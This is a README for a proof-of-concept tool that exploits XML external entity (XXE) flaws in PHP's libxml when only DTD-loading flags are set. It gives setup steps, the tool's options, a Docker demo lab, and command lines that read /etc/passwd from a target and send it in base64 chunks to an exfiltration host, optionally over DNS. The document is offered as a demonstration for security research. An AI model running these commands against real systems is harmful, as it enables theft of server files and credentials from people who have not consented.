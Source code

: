 PoC tool to demonstrate XXE in PHP with only `LIBXML_DTDLOAD` or `LIBXML_DTDATTR` flag set

## Usage

### Setup
```sh
git clone https://github.com/bytehope/wwe.git
cd wwe
pip install -r requirements.txt
```

### Tool arguments

List of allowed tool arguments
```sh
usage: wwe.py [-h] -f FILENAME [-l LENGTH] [--dns-exf | --no-dns-exf] [--decode | --no-decode] exfiltrate_url {AUTO,MANUAL} ...

positional arguments:
  exfiltrate_url
  {AUTO,MANUAL}

options:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        the name of the file whose content we want to get
  -l LENGTH, --length LENGTH
                        each request will retrieve l-bytes in b64. Increase this param will be huge increase payload size
  --dns-exf, --no-dns-exf
                        enable/disable exfiltration over DNS (default: False)
  --decode, --no-decode
                        Inline decode to b64 in output
```

### Demo
To set up a test environment, run the docker compose.
```sh
docker compose -f ./demo/compose.yaml up -d
```

Then execute the script
```sh
python3 wwe.py -f /etc/passwd --decode http://172.30.0.1:9999 AUTO ./demo/demo-request.txt -u http://localhost:1337/
```

Stop Docker and remove the network
```sh
docker compose -f ./demo/compose.yaml down -v
```

### Modes
#### Auto
It listens to the port itself and sends data to a vulnerable route using a txt file,
example: 
```sh
python3 wwe.py -f /etc/passwd --decode http://EXF_HOST:LISTEN_PORT AUTO REQUEST_IN_FILE.txt -u http://TARGET/
```

#### Manual
Generates a payload on each chunk of data, waiting for input to generate the next payload:
```sh
python3 wwe.py -f /etc/passwd --decode http://EXF_HOST_WITH_PORT MANUAL
```

### TODO:
- output data into file
- enable/disable live mode
- improved live view for other modes
- full-auto DNS mode
